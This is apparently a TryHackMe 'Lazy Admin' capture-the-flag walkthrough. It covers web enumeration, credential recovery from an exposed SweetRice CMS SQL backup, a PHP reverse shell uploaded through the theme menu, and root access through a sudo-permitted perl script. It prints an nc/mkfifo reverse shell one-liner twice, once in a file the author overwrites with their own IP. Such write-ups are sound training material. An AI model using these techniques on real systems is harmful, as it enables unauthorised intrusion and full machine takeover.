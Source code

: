 ```bash
# PLATFORM          . THM
# CTF NAME          . Lazy Admin
# DESCRIPTION       . Easy linux machine to practice your skills
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/lazyadmin
```

```bash
sudo nmap -sSVC -T5 10.10.151.163 -p- -oN LazyAdmin 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I also started `ffuf` while the `nmap` scan was running.

```bash
ffuf -u http://10.10.151.163/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- The root path on the webserver is just the default apache installation, but we hit the jackpot once we go to `/content`.

```


Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

- Fuzzing through `ip/content/FUZZ` one more time, we find additional pages:

```
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 320, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
```

- I didn't spend too much time looking in each file that I found, but here's the summary
	
	- `js` contains a bunch of `.js` (duuuh!) files I didn't take a look into.
	
	- `images` - images and `captcha.php`
	
	- `attachment` - empty
	
	- `inc` - a bunch of `.php` files ; in the `mysql_backup` we're able to find and download a `.sql` file and in the `cache` file to download `cache.db`.
	
	- `as` - Sweet Rice CMS Login Panel


- I took a look at the `mysql_backup` file and I've noticed that it is in ASCII.

```bash
file mysql_bakup_20191129023059-1.5.1.sql 

mysql_bakup_20191129023059-1.5.1.sql: PHP script, ASCII text, with very long lines (1125)
```

- Inside, we're able to find the credentials needed for the Login Panel.

![[Pasted image 20231124203720.png]]

- That is an `MD5 Hash` and represents the hash for `{redacted}` password. Credentials: `manager:{redacted}`

- I also took a look into `cache.db` because of pure curiosity, and I've noticed that `sqlite3` doesn't help.

```bash
file cache.db 

cache.db: Berkeley DB (Btree, version 9, native byte-order)
```

- After some quick reseach, I found out that I need to use have `db-utils` package installed in order to use `db_dump` on that `.db`.

```bash
db_dump cache.db 

VERSION=3
format=bytevalue
type=btree
db_pagesize=4096
HEADER=END
 64625f61727261795f3265313035323534626532656366656461626163363638363864636563396236
 313537353032333430392f
 64625f61727261795f6336656162356265366334356438613038383465646535613536633564376433
 313537353032333430392f
 64625f61727261795f6364326264313238643533396638316637326562376562363331646438306332
 313537353032333430392f
DATA=END
```

- I had no idea what this data represents, and considering that I already found the account needed, I assumed there's little need to further investigate this (most probably) rabbit hole.

- Back to our manager account, after we logged in I started looked around for a place to upload things, hopefully a reverse shell.

- I went to `General -> Dashboard` and activated the website, wanted to see how it looks like. ugly.

- I also did that because I wanted to change the default theme so instead of the content in the `main.php`, I would execute a php reverse shell.

- But then I realised I don't need an entire theme for that and I've just used [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). 

- I have uploaded the shell from the CMS, Themes menu. I added the `.php` file directly, and I took a look in `ip/content/_themes` ; there was a folder called `shell.php` (the name of my file) but it was empty ;

- The trick was to first `zip` the `shell.php` and then upload it. It was also written on the website, but meh, I didn't see it.

- Navigating to `ip/content/_themes/archive_name/shell.php` after starting a listener will grant us a reverse shell.

```
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.138.130] 55604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:59:55 up 7 min,  0 users,  load average: 0.02, 0.31, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Before continuing, I want to state that there were also other methods of getting a reverse shell. Take a look at [this](https://www.exploit-db.com/exploits/40716) exploit and [this](https://www.exploit-db.com/exploits/40700) exploit. I just wanted to find other ways :D 

- Back to our fresh reverse shell - we're under `www-data` user.

- Stabilise the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

<CTRL + Z>
stty raw -echo; fg
```

- The first flag is located at `/home/itguy/user.txt`.

- A file called `mysql_login.txt` is located in the same path, but I knew these credentials for some time already. You can find them in the CMS by going to `Settings -> General`. You can even change the password of the current user, create a new site with another admin, and so on.

```
rice:{redacted}
```

**DISCLAIMER**:  **DO NOT** click on *Update* in the menu ; the webserver will crash :) Don't ask how I found out.

- The privilege escalation vector I found was quite straight forward. 

- The user had `sudo` permissions for `/usr/bin/perl`.

```
www-data@THM-Chal:/tmp$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- There is also a "backup" Perl script in `/home/itguy/backup.pl` 

```backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

- All I had to do was to replace the ip in the script with my own and start a listener on the port. Then, run the `backup.pl` script as `sudo`.

```bash
www-data@THM-Chal:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.53.46 5555 >/tmp/f" > /etc/copy.sh
```

```bash
www-data@THM-Chal:/tmp$ sudo /usr/bin/perl /home/itguy/backup.pl
```

- The last flag is located in `/root/root.txt` ; 